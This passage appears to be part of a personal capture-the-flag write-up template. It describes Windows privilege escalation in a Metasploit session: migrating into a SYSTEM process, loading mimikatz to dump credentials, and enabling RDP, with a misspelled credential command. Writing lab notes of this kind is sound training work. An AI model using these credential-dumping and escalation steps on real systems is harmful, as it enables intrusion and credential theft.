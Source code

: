 
- **Post-Exploitation Notes**:
  - E.g., accessed user.txt
- **Proof**: 
  - ![[proof-shell.png]]
---

<summary>5. 🪜 Privilege Escalation</summary>

- **Initial Access Level**:
- **Techniques Tried**:
  - metasploit, migrate,  mimikatz, 
- **Success Path**:
  - Commands used:
- **Root Access?** (Yes/No)
- **Proof**:

as we can get ownership priviliges from running processes `SeTakeOwnershipPrivilege`

use `ps`to see running processes.

![[Pasted image 20250628140911.png]]

Migrate to this process now with the command `migrate -N PROCESS_NAME`

`migrate 1372`

`getuid`

user: NT AUTHORITY\SYSTEM

Use mimikatz - `load kiwi`

Now mimikatz is loaded into this session

![[Pasted image 20250628141514.png]]

use `creda_all` to retrieve all passwords

![[Pasted image 20250628141648.png]]

to enabel rdp

run post/windows/manage/enable_rdp - outside a meterpreter 

---

<summary>6. 🗃️ Post-Exploitation</summary>

- **Files/Flags Accessed**:
- **Sensitive Data Found**:
  - Passwords, config files:
- **Users Compromised**:
- **Persistence (if tested)**:

---

<summary>7. 📓 Lessons Learned</summary>
